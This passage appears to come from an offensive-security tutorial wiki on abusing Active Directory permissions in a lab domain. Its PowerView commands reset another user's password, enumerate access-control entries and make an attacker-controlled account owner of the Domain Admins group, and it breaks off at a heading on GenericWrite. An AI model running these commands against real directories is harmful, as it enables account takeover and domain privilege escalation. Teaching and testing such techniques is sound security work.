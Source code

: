 Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 12-31-52.png>)

Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 14-11-25.png>)

...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 12-58-25.png>)

### WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-45-36.png>)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-45-42.png>)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-54-59.png>)

### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
